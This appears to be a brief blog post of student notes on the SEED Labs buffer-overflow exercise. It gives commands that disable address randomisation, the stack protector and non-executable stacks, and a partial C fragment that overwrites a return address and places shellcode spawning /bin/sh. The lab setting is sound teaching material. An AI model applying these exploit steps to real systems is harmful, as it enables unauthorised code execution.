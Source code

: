 ```yaml
---
layout: post
title: "Buffer Overflow Attack"
share: false
categories:
  - Seed Labs
tags:
  - Security
  - C
  - Summer 2018
---
```


address space randomization
to turn it off:
* $ sudo sysctl -w kernel.randomize_va_space=0

Stack gaurd protection
to turn it off:
* $ gcc -fno-stack-protector

To make the stack be able to execute commands:
* $ gcc -z execstack

The shellcode invokes the
execve()
system call to execute
/bin/sh

if buffer size is 24
You need to fill the buffer with appropriate contents here */
    buffer[36] = 0xDC;
    buffer[37] = 0xEB;
    buffer[38] = 0xFF;
    buffer[39] = 0xBF;

    int i;
    int j = 0;
    int len = 512 - (sizeof(shellcode) / sizeof(shellcode[0]));
    printf("%d", len);
    for(i = len; i <= 512; i++){
        buffer[i] = shellcode[j];
        j++;
    }

if the buffer is 28 then i need to add 4 bytes to the buffer -> buffer[40]
